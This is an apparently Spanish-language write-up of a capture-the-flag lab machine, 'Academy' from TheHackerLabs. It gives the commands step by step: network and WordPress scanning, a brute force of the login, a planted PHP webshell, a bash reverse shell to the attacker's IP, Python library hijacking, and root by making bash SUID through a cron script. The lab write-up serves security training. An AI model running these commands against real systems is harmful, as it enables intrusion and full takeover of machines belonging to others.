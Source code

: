 ```yaml
---
layout: post
title: "Academy"
date: 2024-06-11 16:25:23
category: sample
vm: hackerlabs
---
```


<style>
  .post-content {
    color: #51c25be1; /* Cambia el color del texto */
  }
</style>

<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/thehackerlabs/thehackerlabs.png" width=260></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Academy </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Dificultad:</strong> <span class="easy">Facil</span></td> </tr>
  <tr> <td><strong><a href="https://thehackerslabs.com/academy/" target="_blank"> Descarga</a></strong></td> </tr>
</table>

<br>

![img](/notas/public/img/thehackerlabs/Academy/host.png){:.margin}

**1\.** Detecto los equipos activos en la red.

`sudo arp-scan -l`

![img](/notas/public/img/thehackerlabs/Academy/arp.png){:.margin}

**2\.** Escaneo los puertos y detalles de los servicios que corre.

`sudo nmap -p- --open -T5 -sCV --min-rate=5000 -n -Pn 192.168.1.9`

![img](/notas/public/img/thehackerlabs/Academy/nmap.png){:.margin}

**3\.** En la web esta la web por defecto de Apache. 

`http://192.168.1.9`

![img](/notas/public/img/thehackerlabs/Academy/80.png){:.margin}

**4\.** Fuzzing de directorios y ficheros en la web.

`gobuster dir -u http://192.168.1.9/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,php,txt -q`

![img](/notas/public/img/thehackerlabs/Academy/gobuster.png){:.margin}

**5\.** Analizando la web en /wordpress.

_5.1- La pagina no carga correctamente_

`http://192.168.1.9/wordpress/`

![img](/notas/public/img/thehackerlabs/Academy/80wordpress.png){:.margin}

_5.2- En su fuente veo que llama a un dominio_

![img](/notas/public/img/thehackerlabs/Academy/codewordpress.png){:.margin}

_5.3- Agrego el dominio al hosts, ahora la carga es correcta_

`sudo nano /etc/hosts`

`192.168.1.9  academy.thl`

![img](/notas/public/img/thehackerlabs/Academy/hosts.png){:.margin}
![img](/notas/public/img/thehackerlabs/Academy/80wordpressok.png){:.margin}

**6\.** Sigo con mas fuzzing en la web, no encuentro mucho mas.

`gobuster dir -u http://192.168.1.9/wordpress/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,php,txt -q`

![img](/notas/public/img/thehackerlabs/Academy/gobusterwordpress.png){:.margin}

**7\.** Escaneo vulnerabilidades con wpscan, encuentra un usuario valido.

`wpscan --url http://192.168.1.9/wordpress -e vp,u --api-token='pasteyourapi'`

![img](/notas/public/img/thehackerlabs/Academy/wpscan.png){:.margin}

**8\.** Hago fuerza bruta al login de wordpress.

`wpscan --url http://192.168.1.9/wordpress -U dylan -P /usr/share/wordlists/rockyou.txt`

![img](/notas/public/img/thehackerlabs/Academy/wpsbruteforce.png){:.margin}

**9\.** Accedo al wordpress con las credenciales.

`http://192.168.1.9/wordpress/wp-login.php`

![img](/notas/public/img/thehackerlabs/Academy/wordpresslogin.png){:.margin}

**10\.** Obteniendo una webshell.

_10.1- Clickamos en file manager, y editamos el index.php_

![img](/notas/public/img/thehackerlabs/Academy/filemanager.png){:.margin}

_10.2- Añadimos nuestro codigo para ejecutar webshell_

`shell_exec($_GET["cmd"]);`

![img](/notas/public/img/thehackerlabs/Academy/editindex.png){:.margin}

_10.3- Probamos la ejecucion_

`academy.thl/wordpress/?cmd=cat /etc/passwd`

![img](/notas/public/img/thehackerlabs/Academy/80webshell.png){:.margin}

**11\.** Entablando conexion con una reverse shell.

_11.1- Me pongo en escucha_

`sudo nc -nlvp 443`

![img](/notas/public/img/thehackerlabs/Academy/nc.png){:.margin}

_11.2- Me envio la reverse shell_

`http://academy.thl/wordpress/?cmd=bash -c "bash -i>%26 /dev/tcp/192.168.1.13/443 0>%261"`

![img](/notas/public/img/thehackerlabs/Academy/reverseshell.png){:.margin}

_11.3- Recibo la conexion_

![img](/notas/public/img/thehackerlabs/Academy/ncok.png){:.margin}

**12\.** Encuentro un script python, veo que no especifica la ruta completa de la libreria.

`cd /opt`

`ls`

`cat backup.py`

![img](/notas/public/img/thehackerlabs/Academy/catbackup.png){:.margin}

_\- Aparentemente realiza una conexion por ssh, pero al ejecutar nos da un error_

**13\.** Probando Python Library Hijacking.

_13.1- Creo una script paramiko.py donde hare una peticion a mi servidor local_

`echo -e "import os\nos.system('curl -s http://192.168.1.13/prueba')" > paramiko.py`

`cat paramiko.py`

![img](/notas/public/img/thehackerlabs/Academy/paramikopy.png){:.margin}

_13.2- Veo que si funciona, pero esto no tiene sentido ya que ejecutamos sin privilegio alguno, es como ejecutar el mismo paramiko.py_

`python3 -m http.server 80`

`python3 backup.py`

![img](/notas/public/img/thehackerlabs/Academy/backuppy.png){:.margin}

**14\.** Escalando privilegios.

_14.1- Uso [pspy64](https://github.com/DominicBreuker/pspy/releases) para ver los procesos, al cabo de unos segundos veo que root busca ejecutar /opt/backup.sh_
`wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64 -q` 
`chmod +x pspy64`
`./pspy64`

![img](/notas/public/img/thehackerlabs/Academy/pspy64.png){:.margin}

_14.2- Creo el backup.sh con instrucciones para hacer suid el bash_
`echo "chmod u+s /bin/bash" > backup.sh`
`chmod +x backup.sh`

![img](/notas/public/img/thehackerlabs/Academy/backupsh.png){:.margin}

_14.3- Esperamos unos segundos para luego ejecutar bash -p_
`ls -l /bin/bash`
`bash -p`

![img](/notas/public/img/thehackerlabs/Academy/root.png){:.margin}

<br>

<span class="finish">_Finalizado._</span>